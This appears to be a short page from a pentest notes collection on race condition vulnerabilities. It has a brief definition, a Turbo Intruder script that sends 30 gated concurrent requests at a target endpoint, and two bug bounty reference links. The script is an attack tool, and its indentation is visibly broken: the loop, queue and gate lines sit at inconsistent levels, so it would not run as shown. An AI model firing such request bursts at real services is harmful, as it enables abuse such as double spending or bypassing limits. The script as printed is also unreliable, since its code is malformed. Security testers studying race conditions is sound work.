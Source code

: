 # Race Condition

A race condition vulnerability occurs when the behavior or outcome of a system or program depends on the timing or sequence of events, and multiple processes or threads compete for shared resources or data. This can result in unexpected or erroneous behavior, including security vulnerabilities, if the processes or threads don't coordinate properly. For example, if two processes try to write to the same file at the same time, the file may end up with unexpected or corrupted data.

### Turbo Intruder

Utilizing Turbo Intruder, we can leverage the `race.py` script to send a request several times in an extremely short period of time:

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=30,
                           requestsPerConnection=30,
                           pipeline=False
                           )

   for i in range(30):
    engine.queue(target.req, i)
        engine.queue(target.req, target.baseInput, gate='race1')


    engine.start(timeout=5)
   engine.openGate('race1')

    engine.complete(timeout=60)


def handleResponse(req, interesting):
    table.add(req)
```

### References

{% embed url="https://hackerone.com/reports/759247" %}

{% embed url="https://pravinponnusamy.medium.com/race-condition-vulnerability-found-in-bug-bounty-program-573260454c43" %}
